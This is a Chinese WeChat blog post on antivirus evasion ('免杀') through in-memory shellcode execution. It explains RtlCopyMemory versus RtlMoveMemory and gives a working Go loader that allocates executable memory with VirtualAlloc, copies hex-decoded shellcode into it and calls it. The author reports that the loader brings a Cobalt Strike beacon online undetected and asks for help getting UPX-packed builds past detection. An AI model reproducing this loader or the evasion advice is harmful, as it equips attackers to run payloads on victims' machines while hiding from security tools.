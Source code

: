 ##  我的免杀之路：内存隐藏

原创 Snaker  [ Snaker独行者 ](javascript:void\(0\);)

**Snaker独行者** ![]()

微信号 gh_e5407d383892

功能介绍 记录本人网络安全知识/经验/笔记，致敬未来的我。

____

__

收录于话题

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825082741.png)

  

**【简述】**

 **  
**

内存隐藏技术的核心在于将自己的shellcode注入到内存当中并隐藏起来，那么可以围绕Windows
API中的RTLCopyMemory函数开展，RTLCopyMemory函数是Windows内核函数，能够实现内存块的复制。而同样能够实现内存块复制的，还有一个RTLMoveMemory函数，然而RTLCopyMemory和RTLMoveMemory的区别在于是非重叠内存区域的复制，RTLCopyMemory非重叠复制，而RTLMoveMemory是重叠复制。这很好理解，看图：

![](https://gitee.com/fuli009/images/raw/master/public/20210825082756.png)



如果需要将A到C段的内存复制到B到D段内存上，这B到C段的内存就是重叠部分。如果使用RTLCopyMemory函数，重叠的部分不会被覆盖；如果使用RTLMoveMemory函数，重叠的部分也会被覆盖，当然，两者的结果都是一样的。经过测试，也证实了自己的想法，无论是用RTLCopyMemory还是RTLMoveMemory函数，都可以达到免杀的目的。

  

  

  

 **【实现思路】**

 **  
**

直接上核心代码部分，难度不大

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     func ShellCode_RTLCopyMemory(shellcode string) error {    bad_Shellcode := []byte(shellcode)    addr, _, err := VirtualAlloc.Call(0, uintptr(len(bad_Shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)    if addr == 0 {      return err    }    ds, _ := hex.DecodeString(shellcode)    _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&ds[0])), uintptr(len(shellcode)))    if err != nil {       if err.Error() != "The operation completed successfully." {          return err       }    }    _, _, err = syscall.Syscall(addr, 0, 0, 0, 0)    if err != nil {       if err.Error() != "The operation completed successfully." {          return err       }    }    return nil}

着重说一下关于RTLCopyMemory函数，它有三个参数

 **参数**

|

 **意义**  
  
---|---  
  
Destination

|

数据类型：void*。指向要将字节复制到的目标内存块的指针。  
  
Source

|

数据类型：const void*。指向要从中复制字节的源内存块的指针。  
  
Length

|

数据类型：size_t。要从源复制到目标的字节数。  
  
复制需要源内存块的指针和目标内存块的指针，因为内存块的复制会导致地址偏移，所以这里必须要unsafe.Pointer和uintptr配合来实现，然而目标地址怎么设置呢？这就需要用到VirtualAlloc函数进行虚拟内存分配，我们需要的虚拟内存大小就是shellcode的长度，所以这里的目标地址就是我们申请的虚拟内存地址。源内存块地址就是shellcode转化成字节后，即ds[]，第0位的指针位置，即&ds[0]（备注：golang中的&和*符号都是指针符号，&符号的意思是对变量取地址，*符号的意思是对指针取值。）  
其实这就是 **内存注入技术**
，通过VirtualAlloc申请一块内存空间，VirtualAlloc如果调用成功，则返回分配的首地址。接着将Shellcode复制到VirtualAlloc申请的内存中，进行调用。这种方法的优势就是被发现的概率很低，甚至可以被忽略，注入后将注入工具删除即可。但是这种技术也存在一个弊端，因为内存是易失性存储器，所以系统必须一直开机，不能关闭。

  

最后的CS上线免杀效果：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825082757.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825082759.png)

  

（这里本人有个问题不知道该如何解决，没经过upx压缩的并不会报毒，能成功bypass，而经过upx压缩的会被查杀出来，我已经修改过upx的静态特征，但是依旧被查杀出来，望师傅们指点指点）

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825082800.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

我的免杀之路：内存隐藏

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

